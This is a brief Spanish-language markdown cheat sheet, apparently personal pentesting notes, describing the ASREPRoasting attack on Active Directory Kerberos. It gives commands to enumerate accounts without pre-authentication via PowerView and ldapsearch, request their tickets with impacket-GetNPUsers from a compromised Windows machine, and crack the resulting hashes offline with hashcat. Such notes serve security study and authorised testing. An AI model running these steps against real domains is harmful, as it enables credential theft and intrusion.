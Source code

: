 # ASREPRoasting attack
- ASREPRoasting es otro ataque que pide TGT que **NO requieran pre-auth en kerberos**.
-Al obtener el TGT, el atacante puede extraer hashes y realizar ataques de fuerza bruta offline.

## Con powerview
- Importante tener cargado powerview.ps1 y todo el armatoste en la maquina windows comprometida
- `Import-Module .\PowerView.ps1`
- `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth`

## con LDAP search
- `ldapsearch -x -H ldap://<domain_controller> -D "<username>" -w <password> -b "dc=example,dc=com" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)"`

## Solicitar TGT
- `impacket-GetNPUsers. DOMINIO.LOCAL/ -usersfile users.txt -format hashcat -dc-ip <domain_controller_ip>`

## hashcat
- `hashcat -m 18200 hashes.txt /path/to/wordlist`